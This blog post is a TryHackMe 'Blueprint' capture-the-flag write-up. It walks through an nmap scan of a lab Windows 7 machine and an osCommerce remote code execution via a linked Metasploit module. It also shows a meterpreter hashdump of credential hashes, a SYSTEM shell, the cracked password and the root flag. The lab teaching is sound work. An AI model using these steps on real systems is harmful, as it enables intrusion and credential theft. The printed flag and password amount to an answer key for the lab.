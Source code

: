 ```yaml
---
title: "Blueprint - TryHackMe"
author: Ludovic COULON
date: 2020-05-28
hero: ./images/hero.jpeg
excerpt: "Writeup for the Blueprint on TryHackMe"
---
```


[TryHackMe | Blueprint](https://tryhackme.com/room/blueprint)

<div className="Image__Small">
  <img src="https://webstockreview.net/images/win-clipart-blueprint-1.png" alt="blog_image" />
</div>

Do you have what is takes to hack into this Windows Machine?

`It might take around 3-4 minutes for the machine to boot.`

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.80.61
```

```bash
PORT      STATE SERVICE     REASON  VERSION
135/tcp   open  msrpc       syn-ack Microsoft Windows RPC

139/tcp   open  netbios-ssn syn-ack Windows 7 Home Basic 7601 Service Pack 1 netbios-ssn

443/tcp   open  ssl/http    syn-ack Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Bad request!
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
| SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
| -----BEGIN CERTIFICATE-----
| MIIBnzCCAQgCCQC1x1LJh4G1AzANBgkqhkiG9w0BAQUFADAUMRIwEAYDVQQDEwls
| b2NhbGhvc3QwHhcNMDkxMTEwMjM0ODQ3WhcNMTkxMTA4MjM0ODQ3WjAUMRIwEAYD
| VQQDEwlsb2NhbGhvc3QwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAMEl0yfj
| 7K0Ng2pt51+adRAj4pCdoGOVjx1BmljVnGOMW3OGkHnMw9ajibh1vB6UfHxu463o
| J1wLxgxq+Q8y/rPEehAjBCspKNSq+bMvZhD4p8HNYMRrKFfjZzv3ns1IItw46kgT
| gDpAl1cMRzVGPXFimu5TnWMOZ3ooyaQ0/xntAgMBAAEwDQYJKoZIhvcNAQEFBQAD
| gYEAavHzSWz5umhfb/MnBMa5DL2VNzS+9whmmpsDGEG+uR0kM1W2GQIdVHHJTyFd
| aHXzgVJBQcWTwhp84nvHSiQTDBSaT6cQNQpvag/TaED/SEQpm0VqDFwpfFYuufBL
| vVNbLkKxbK2XwUvu0RxoLdBMC/89HqrZ0ppiONuQ+X2MtxE=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1

3306/tcp  open  mysql       syn-ack MariaDB (unauthorized)

8080/tcp  open  http        syn-ack Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods:
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
49152/tcp open  msrpc       syn-ack Microsoft Windows RPC
49153/tcp open  msrpc       syn-ack Microsoft Windows RPC
49154/tcp open  msrpc       syn-ack Microsoft Windows RPC
49158/tcp open  msrpc       syn-ack Microsoft Windows RPC
Service Info: Hosts: www.example.com, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -19m59s, deviation: 34m37s, median: 0s
| nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 02:05:ad:f5:e5:be (unknown)
| Names:
|   BLUEPRINT<00>        Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   BLUEPRINT<20>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   02 05 ad f5 e5 be 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 41714/tcp): CLEAN (Couldnt connect)
|   Check 2 (port 54382/tcp): CLEAN (Couldnt connect)
|   Check 3 (port 22612/udp): CLEAN (Failed to receive data)
|   Check 4 (port 23038/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-05-28T19:03:48+01:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-05-28T18:03:50
|_  start_date: 2020-05-28T18:03:02
```

<div className="Image__Small">
  <img src="https://imgur.com/rUJpFMM.png" alt="blog_image" />
</div>

[osCommerce 2.3.4.1 - Remote Code Execution by DanielRTeixeira · Pull Request #9821 · rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework/pull/9821/files/b5681cb954bed6a1e64cf6708cbd5a937e596f5b)

<div className="Image__Small">
  <img src="https://imgur.com/nrRw0SU.png" alt="blog_image" />
</div>

<div className="Image__Small">
  <img src="https://imgur.com/lecapcm.png" alt="blog_image" />
</div>

### #1 "Lab" user NTML hash decrypted

```bash
meterpreter > run hashdump
```

<div className="Image__Small">
  <img src="https://imgur.com/J5xg1PX.png" alt="blog_image" />
</div>

```bash
googleplus
```

### #2 root.txt

```bash
meterpreter > shell
C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes> whoami
nt authority\system
C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes> cd C:\User\Administrator\Desktop
C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes> type root.txt.txt
THM{aea1e3ce6fe7f89e10cea833ae009bee}
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/GAKz5CS.png" alt="TryhackMeProfile" />
  </a>
</center>
